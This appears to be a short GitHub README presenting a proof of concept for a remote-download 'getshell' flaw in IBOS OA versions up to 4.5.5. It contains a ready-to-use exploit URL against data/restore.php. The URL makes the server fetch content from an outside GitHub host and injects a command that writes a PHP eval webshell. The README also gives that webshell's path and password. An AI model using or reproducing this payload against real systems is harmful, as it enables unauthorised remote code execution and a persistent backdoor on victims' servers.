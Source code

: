# IBOS-OA-Remote-Download-Getshell
# Affected Version
## Version <= 4.5.5

## POC
Payload:

```
python2 poc.py -u http://localhost
```

http://localhost/data/restore.php?op=restore&id=https://raw.githubusercontent.com/zhaoweiho/IBOS-remote-download-getshell/master/poxteam.txt%20?%20%26%20echo%20^%3C?php%20@eval($_GET[%22poxteam%22])?^%20>%20weiho.php

Link to Webshell
URL:http://localhost/data/weiho.php
PassWord:poxteam



## References

https://skrskr.me/index.php/posts/open-source-version-of-IBOS-oa-system-getshell.html

